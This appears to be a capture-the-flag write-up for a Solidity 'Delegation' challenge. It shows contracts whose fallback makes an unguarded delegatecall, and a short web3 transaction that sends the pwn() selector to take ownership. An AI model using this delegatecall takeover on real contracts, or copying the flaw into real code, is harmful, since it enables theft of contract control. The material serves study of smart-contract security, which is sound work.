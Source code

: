 <img src="delegation.png" alt="delegation" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

<hr />

# Hack

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Calling a function non-existant in the contract will trigger fallback and we have passed msg.data as the function selector of pwn() and it doesnot exist on the contract and it exists on the contract which it delegates call on the fallback function. We have passed the function selector only as it has no arguments otherwise we should also encode each parameters to 32 bytes and append to the function signature and pass to the data.

Function selector is actually 4 bytes of the keccak256 hashing of th function signature: web3.utils.keccak256("pwn()").slice(0,10) = "0xdd365b8b"
```
const data = web3.eth.abi.encodeFunctionSignature("pwn()")
contract.sendTransaction({from: player, to: contract.address, data: data})
```